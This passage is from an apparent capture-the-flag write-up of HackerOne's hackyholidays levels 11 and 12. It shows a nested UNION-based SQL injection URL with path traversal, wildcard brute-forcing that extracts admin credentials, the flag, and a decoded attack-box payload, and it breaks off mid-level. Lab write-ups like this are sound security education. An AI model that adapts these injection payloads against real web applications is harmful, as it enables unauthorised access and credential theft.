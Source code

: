 ```Expected HTTP status 200, Received: 404```

{F1139917}

`Invalid-content type`

+ Similarly, for the password, we can use /api/user?password=a%, after another 20 mins, got the password as "s4nt4sucks".

**Request**

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=-6860%27%20UNION%20ALL%20SELECT%20%2212%27%20UNION%20ALL%20SELECT%201,1,\%22../api/user?password=s4nt4sucks%\%22--%20-%22,NULL,%22aaa%27%22--%20-


**Response**

{F1139921}

+ Here are the credentials fetched using double SQL injection- username: grinchadmin, password: s4nt4sucks 

+ After using the above credentials inside https://hackyholidays.h1ctf.com/attack-box/login, it was successfully returned with the flag area.

{F1139925}

```
Grinch Network Attack Server
flag{07a03135-9778-4dee-a83c-7ec330728e72}
```

+ Finally, got the flag 11.

+ Flag 11- `flag{07a03135-9778-4dee-a83c-7ec330728e72}`.



**Day12 - CTF level 12**

+ Since I solved flag 11 on day 12, it was already loaded with the level as we can see in the screenshot.
+ Inside https://hackyholidays.h1ctf.com/attack-box, there were three target ips along with an attack option and once we click on the attack option, it'll trigger the payload.

**Request**

https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==

Decode the base64 payload

{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}

**Response**

+ Redirect to https://hackyholidays.h1ctf.com/attack-box/launch/7e9a25f63e3d1856373c36c9d3e29f89

{F1139926}

+ As per flag 11, if we add random IP over here, it might say the error and I was right:

```